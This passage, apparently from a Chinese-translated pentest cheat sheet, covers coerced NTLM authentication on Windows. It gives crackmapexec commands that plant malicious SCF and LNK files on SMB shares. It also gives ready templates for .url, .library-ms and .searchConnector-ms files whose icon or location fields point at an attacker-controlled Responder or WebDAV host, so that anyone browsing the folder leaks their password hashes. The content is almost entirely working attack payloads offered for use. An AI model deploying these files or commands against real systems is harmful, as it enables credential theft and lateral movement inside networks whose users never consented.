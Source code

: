 使用[`crackmapexec`](https://github.com/mpgn/CrackMapExec/blob/master/cme/modules/slinky.py)：

```ps1
crackmapexec smb 10.10.10.10 -u 用户名 -p 密码 -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
crackmapexec smb 10.10.10.10 -u 用户名 -p 密码 -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
crackmapexec smb 10.10.10.10 -u 用户名 -p 密码 -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
```

### URL文件

这种攻击也适用于`.url`文件和`responder -I eth0 -v`。

```powershell
[InternetShortcut]
URL=任意内容
WorkingDirectory=任意内容
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### Windows库文件

> Windows库文件（.library-ms）

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### Windows搜索连接器文件

> Windows搜索连接器（.searchConnector-ms）

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```
